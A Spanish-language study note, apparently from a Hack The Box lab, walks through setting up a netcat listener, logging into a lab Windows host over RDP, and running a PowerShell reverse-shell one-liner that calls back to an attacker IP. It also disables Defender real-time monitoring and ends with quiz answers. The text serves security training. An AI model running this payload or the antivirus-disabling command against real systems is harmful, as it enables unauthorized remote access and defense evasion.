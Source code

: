 
Con una reverse shell, nuestro equipo de ataque tendrá un "listener" ejecutándose y será el objetivo quien iniciará la conexión.

Frecuentemente utilizamos este tipo de shell cuando encontramos sistemas vulnerables, ya que es probable que un administrador pase por alto las conexiones salientes, lo que nos brinda una mayor probabilidad de permanecer sin ser detectados.

## Práctica con una Reverse Shell Simple en Windows
ponemos un Puerto de nuestro equipo en escucha

```shell-session
ougicami@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

si no conectamos al sistema usando *rdesktop* podemos tener un escritorio remoto de la maquina donde podemos observar entonces un entorno windows para practicar, aqui pondre nuestra carga

```bash
rdesktop -u htb-student -p HTB_@cademy_stdnt! 10.129.36.45
```



![[Pasted image 20241107140653.png]]

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.17.48',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```
con esto hara una reverse shell a nuestro equipo

![[Pasted image 20241107140241.png]]


## Antivirus windows

en dado caso que la maquina victima tenga temas de antivirus
```powershell
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

```

lo que podemos hacer es desactivar esta defensa desde la Linea de comandos

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

#### actividad 
con al conexion completada podemos obtener el nombre del host

 When establishing a reverse shell session with a target, will the target act as a client or server?
 R// client

 Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.
R//

![[Pasted image 20241107142227.png]]